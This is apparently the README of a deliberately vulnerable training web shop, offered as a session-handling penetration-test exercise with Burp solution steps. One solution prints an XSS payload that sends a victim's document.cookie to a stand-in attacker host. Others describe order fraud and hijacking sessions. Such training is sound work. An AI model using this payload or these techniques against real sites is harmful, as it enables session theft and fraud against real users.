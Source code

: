 [![Docker](https://github.com/BenjiTrapp/Project-Makalu/actions/workflows/docker-publish.yml/badge.svg)](https://github.com/BenjiTrapp/Project-Makalu/actions/workflows/docker-publish.yml)

<p align="center">
<img src="static/project-makalu.png">
</p>

### Project [Makalu](https://de.wikipedia.org/wiki/Makalu) 
In the course of the new online store of the **anna group** a new session handling is needed. The code presented here 
code is about to go live. In spite of the rapid development there are doubts whether
 something important has been forgotten?

### Motivation
Modern WebApps sometimes have an enormous complexity. In order to protect the customer from possible attacks, among other things, requests made to a WebApp require a login session. A request usually requires the data from a previous 
previous response (e.g. CSRF tokens). The data received in a partial request may also be needed some requests later, e.g. during checkout. 
such as during the checkout process. This makes the use of "unique" names/IDs during the creation of a request necessary. 
 
**Remark**: Fuzzing e.g. in the context of a CSRF token, generates a lot of data as well as calls within the WebApplication. This can affect the performance of the entire application in the event of an attack. The performance itself,
is NOT the focus of this penetration test, but can become a "problem" for the attack, depending on the chosen fuzzing method. 

## Problem Statement:
 Help the **anna group** to test the security of the session handling through a penetration test. To fulfill this request
 the application must first be installed and made operational. Here helps 
 the following instructions will certainly help:
 
## Install & launch the WebApp
1. using Docker
     ```
     1. ``$ docker pull nyctophobia/project-makalu``
     2. ``$ docker run -d -p 4711:4711 nyctophobia/project-makalu``
     3. open in browser: "http://localhost:4711"
     ```
2. Using Docker Compose
     ```
     1. pull Git repository from GitHub (git pull https://github.com/BenjiTrapp/Project-Makalu.git)
     2. change to the directory
     3. ``docker-compose up``
     4. open in browser: ``http://localhost:4711``
     ```
3. locally in the IDE
     ```
     1. edit the file https://github.com/BenjiTrapp/Project-Makalu/blob/master/ProjectMakaluApp.py: 
            Change host in main method from 0.0.0.0 to 127.0.0.1. 2.
     2. start edited main method in IDE e.g. PyCharm
     ```

##### [Credentials](https://www.heise.de/security/meldung/hallo-ist-meistgenutztes-deutsches-Passwort-auf-Platz-zehn-steht-ficken-3579567.html): user/hallo

## Execution of the penetration test
The following use cases exist for the test. To perform the penetration test the file 
"/doc/Burp.burp-projectopts.json" can be loaded as a project using [Burp](https://portswigger.net/burp/freedownload/). 
can be loaded. The JSON file contains all session handling rules to solve the following challenges.
to solve. The challenges can of course also be solved with other tools such as OWASP ZAP.

#### Use Case: Build your own CSRF token
```
[Challenge]: The transmitted CSRF token must match and be transmitted with every POST request.

[Solution]:
* Capture the request from an existing CSRF token.
* Create a "Run a Macro" session handling rule
    * Scope the CSRF token parameters.
    * Update the CSRF token ONLY in the currently submitted request.
```

#### Use Case: Take over another user's session using [XSS gap](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)

```
[Challenge]: Find an input field that contains an XSS vulnerability and use it to hijack an unsuspecting victim's session.

[Solution]:
* Place inline JavaScript in a suitable location such as: 
    <script>window.location="http://evil.ru/?cookie=" + document.cookie;</script> 
* Extract the captured cookie from the request and take over the session. 
```

#### Use Case: Keep the login session open
```
[Challenge]: With a probability of 5%, WebApplications terminate the login session.

[Solution]:
* Capture the login request in a macro.
* Create a "Check Session is Valid" rule
    * Create a request
    * Check the response body for a username for the valid session
    * Alternatively, check the redirection of the login URL (the session must be invalid for this case)
    * Play the recorded macro when the session is invalidated
```
    
#### Use Case: commit order fraud 
```
[Challenge]: Perform multiple requests until the final order confirmation appears.

[Solution]:
* Perform all requests until one can be fuzzed using a macro.
* Finalize the order fraud with a "Run a Post-Request Macro", that will confirm the
